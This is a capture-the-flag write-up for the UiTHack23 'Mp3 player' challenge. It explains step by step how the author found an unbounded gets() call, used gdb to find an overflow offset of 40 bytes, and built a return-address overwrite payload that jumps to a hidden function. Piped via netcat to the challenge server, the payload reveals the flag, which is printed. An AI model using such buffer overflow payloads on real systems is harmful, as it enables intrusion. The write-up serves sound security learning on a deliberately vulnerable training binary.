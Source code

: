 # Mp3 player

We found an old mp3 player laying around and decided to connect it to the internet for everyone to listen to its good ol' hits.
However, we might have messed up some of the instructions when setting it up...

You can connect to the Mp3 player with netcat

$ nc motherload.td.org.uit.no 8006

# Writeup

Quick reading of source seems to allow me to get lyrics of the songs i write the name of. `call_me_maybe` is the song I need to play but it is not in the list of available songs to play.

Quickly saw the "gets" which is deprecated in any way shape and form. Not to be used and also heavily used in CTF. This has no limit on how much input it reads. So even though there is only 30 characters given in the buffer if we write more it will pollute the stack.

So I start up: `gdb mp3_player`. Running the info functions command shows me that call me maybe is at `0x000000000040140f`

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  _exit@plt
0x0000000000401100  puts@plt
0x0000000000401110  fclose@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  alarm@plt
0x0000000000401140  strcmp@plt
0x0000000000401150  signal@plt
0x0000000000401160  gets@plt
0x0000000000401170  setvbuf@plt
0x0000000000401180  fopen@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  ignore_me
0x00000000004012db  timeout
0x0000000000401309  ignore_me_timeout
0x000000000040132f  menu
0x000000000040135e  photograph
0x0000000000401399  lose_yourself
0x00000000004013d4  mamma_mia
0x000000000040140f  call_me_maybe
0x0000000000401472  play_song
0x00000000004014fa  main
0x0000000000401550  __libc_csu_init
0x00000000004015c0  __libc_csu_fini
0x00000000004015c8  _fini
```

I was a bit blind but after watching [Running a Buffer Overflow Attach - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo) it became clear to me. I can change the return address in the stack. The return address is where the program should continue executing from after a function call has been run. So basically we can tell it where to go after it has executed `play_song()`.

After a bit of testing I managed to figure out what number I had to use to overwrite that return address. I knew it was over 30 as the buffer was 30. 

```
(gdb) run  < <(python -c 'print("A"*41)')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/toffe/Projects/uithack/mp3_player/mp3_player < <(python -c 'print("A"*41)')

[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
Could not play the requested song

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7df0041 in ?? () from /lib/x86_64-linux-gnu/libc.so.6
```

As it seems the magic number is 40. Everything after 40 is polluting the return address. As you see on the end of the return address it is now `0x00007ffff7df0041`, that last `41` is the hex for an uppercase A. So I just added manually letters.

```
(gdb) run  < <(python -c 'print("A"*40 + "ABCDEF")')
....
Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
```

When I added another character now it seems to be something else happening. So the magic number is 6 letters to change the return address.

So by doing `run  < <(python -c 'print("A"*40 + "\x00\x00\x00\x00\x00\x00")')` I managed to set the return address to `0x0000000000000000`. Lets modify it to start at call me maybe: `0x000000000040140f`. As it is added backwards we need to add the digits backwards aswell. So the payload is:

```
(gdb) run  < <(python -c 'print("A"*40 + "\x0f\x14\x40\x00\x00\x00")')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/toffe/Projects/uithack/mp3_player/mp3_player < <(python -c 'print("A"*40 + "\x0f\x14\x40\x00\x00\x00")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
Could not play the requested song
MY TEST FLAG
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffdef0 in ?? ()
```

There we managed to read my test flag. Now we have a payload to send:

```
└─$ python -c 'print("A"*40 + "\x0f\x14\x40\x00\x00")' | nc motherload.td.org.uit.no 8006
Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
Could not play the requested song
UiTHack23{H3r35_MY_4dDr355_50_caLL_M3_may83}
```

The flag is secured!